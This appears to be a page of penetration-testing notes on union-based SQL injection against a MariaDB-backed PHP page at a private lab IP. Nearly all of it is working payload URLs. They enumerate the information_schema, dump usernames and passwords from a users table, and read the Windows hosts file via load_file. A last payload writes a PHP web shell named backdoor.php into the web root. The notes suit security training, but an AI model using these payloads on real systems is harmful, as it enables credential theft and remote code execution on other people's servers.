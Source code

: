 ##### Information Schema

The Information Schema table of the database provides a lot of info like table and column names, even a layout of the database.  For MariaDB, it is accessed through the `information_schema` option.

**NOTE:  Be sure your 'from...' clause appears at the end of the statement.**

- Example: Get a list of tables in the database

```sql
http://192.168.216.10/debug.php?id=1 union all select 1,  table_name, 3 from information_schema.tables
```

- Example: Show column names for a particular table

```sql
http://192.168.216.10/debug.php?id=1 union all select 1,  column_name, 3 from information_schema.columns where table_name='users'
```

More information on the Information Schema table: https://mariadb.com/kb/en/information-schema-columns-table/

#### Exfiltration

After identifying the tables and columns we're after, we can now go after specific information.

- Example:  Get the usernames and passwords from the users table

```sql
http://192.168.216.10/debug.php?id=1 union all select 1, username, password from users
```

Guides for Oracle Hacking and Enumeration:

https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573

https://hackingprofessional.github.io/Security/how-to-hack-an-Oracle-database-server/

### Code Execution

Code execution is possible given the right OS, service privileges, and filesystem permissions that allow for files to be read and written to the OS.  

Start by checking to see if you can read a file using `load_file`.  A good file on Windows to check is the `hosts` file since any user should have access to it.    Notice that when referencing a directory, we use forward slashes, even on Windows:

```sql
http://192.168.216.10/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

If this is successful, next we can try to write a file using `out_file`.  The code we are using is a simple PHP script that will allow us to execute an arbitrary command passed through a parameter (covered in the WebApp docs under Local File Inclusion).  

```sql
http://192.168.216.10/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
